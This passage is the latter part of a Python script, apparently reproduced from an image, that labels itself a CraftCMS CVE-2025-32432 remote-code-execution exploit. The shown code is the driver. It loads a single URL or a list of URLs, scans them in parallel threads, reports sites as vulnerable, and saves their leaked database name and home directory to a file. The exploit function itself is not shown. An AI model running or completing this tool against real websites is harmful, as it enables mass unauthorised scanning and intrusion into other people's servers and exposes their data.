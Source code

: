 ```
        if result['vulnerable']:
            print(f"[+] VULNERABLE: {url}")
            print(f"    CRAFT_DB_DATABASE: {result['db_name'] or 'Not found'}")
            print(f"    HOME Directory: {result['home_dir'] or 'Not found'}")
            with open('vulnerable.txt', 'a') as f:
                f.write(f"{url},{result['db_name'] or 'Not found'},{result['home_dir'] or 'Not found'}\n")
        elif result['error']:
            print(f"[-] ERROR ({url}): {result['error']}")
        else:
            print(f"[-] Not vulnerable: {url}")

        return result
    except Exception as e:
        print(f"[-] Error processing {url}: {str(e)}")
        return {'url': url, 'vulnerable': False, 'error': str(e)}

def main():
    parser = argparse.ArgumentParser(description='CraftCMS CVE-2025-32432 RCE Exploit')
    group = parser.add_mutually_exclusive_group(required=True)
    group.add_argument('-f', '--file', help='File containing URLs to test')
    group.add_argument('-u', '--url', help='Single URL to test')
    parser.add_argument('-t', '--threads', type=int, default=5, help='Number of threads (default: 5)')
    args = parser.parse_args()

    urls = []

    # Handle single URL mode
    if args.url:
        urls = [args.url]
        print(f"[*] Testing single target: {args.url}")
    # Handle file mode
    elif args.file:
        try:
            with open(args.file, 'r') as f:
                urls = [line.strip() for line in f if line.strip()]
            print(f"[*] Loaded {len(urls)} URLs from {args.file}")
        except Exception as e:
            print(f"Error reading URL file: {str(e)}")
            sys.exit(1)

    print(f"[*] Starting scan with {args.threads} threads")

    # Create results file for vulnerable sites
    with open('vulnerable.txt', 'w') as f:
        f.write("url,craft_db_database,home_directory\n")

    # Process URLs using thread pool
    results = []
    with concurrent.futures.ThreadPoolExecutor(max_workers=args.threads) as executor:
        results = list(executor.map(process_url, urls))

    # Summary
    vulnerable_count = sum(1 for r in results if r['vulnerable'])
    print("\n=== SCAN SUMMARY ===")
    print(f"Total URLs scanned: {len(urls)}")
    print(f"Vulnerable sites: {vulnerable_count}")
    print(f"Detailed results saved to vulnerable.txt")

if __name__ == "__main__":
    main()

```